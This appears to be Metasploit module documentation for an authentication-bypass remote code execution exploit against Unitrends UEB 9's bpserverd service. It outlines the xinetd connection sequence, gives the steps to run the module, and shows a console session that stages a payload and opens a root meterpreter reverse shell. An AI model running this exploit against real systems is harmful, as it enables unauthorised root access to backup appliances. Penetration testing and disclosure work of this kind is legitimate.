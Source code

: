 ## Vulnerable Application

  Unitrends UEB 9 bpserverd authentication bypass RCE

  This exploit uses roughly the same process to gain root execution
  as does the apache user on the Unitrends appliance. The process is
  something like this:

  1.  Connect to xinetd process (it's usually running on port 1743)
  2.  This process will send something like: '?A,Connect36092'
  3.  Initiate a second connection to the port specified
      in the packet from xinetd (36092 in this example)
  4.  send a specially crafted packet to xinetd, containing the
      command to be executed as root
  5.  Receive command output from the connection to port 36092
  6.  Close both connections


## Verification Steps

  1. ```use exploit/linux/misc/ueb9_bpserverd ```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### UEB 9.1 on CentOS 6.5

```
msf > use exploit/linux/misc/ueb9_bpserverd
msf exploit(ueb9_bpserverd) > set rhost 10.0.0.230
rhost => 10.0.0.230
msf exploit(ueb9_bpserverd) > set lhost 10.0.0.141
lhost => 10.0.0.141
msf exploit(ueb9_bpserverd) > exploit

[*] Started reverse TCP handler on 10.0.0.141:4444
[*] 10.0.0.230:1743 - 10.0.0.230:1743 - pwn'ng ueb 9....
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 45425
[*] 10.0.0.230:1743 - Connecting to 45425
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  26.71% done (199/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 40889
[*] 10.0.0.230:1743 - Connecting to 40889
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  53.56% done (399/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 40016
[*] 10.0.0.230:1743 - Connecting to 40016
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] 10.0.0.230:1743 - Command Stager progress -  80.27% done (598/745 bytes)
[*] 10.0.0.230:1743 - Connecting to xinetd for bpd port...
[+] 10.0.0.230:1743 - bpd port recieved: 53649
[*] 10.0.0.230:1743 - Connecting to 53649
[+] 10.0.0.230:1743 - Connected!
[*] 10.0.0.230:1743 - Sending command buffer to xinetd
[*] Sending stage (826872 bytes) to 10.0.0.230
[*] Meterpreter session 1 opened (10.0.0.141:4444 -> 10.0.0.230:33715) at 2017-10-06 11:33:56 -0400
[*] 10.0.0.230:1743 - Command Stager progress - 100.00% done (745/745 bytes)

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter >

```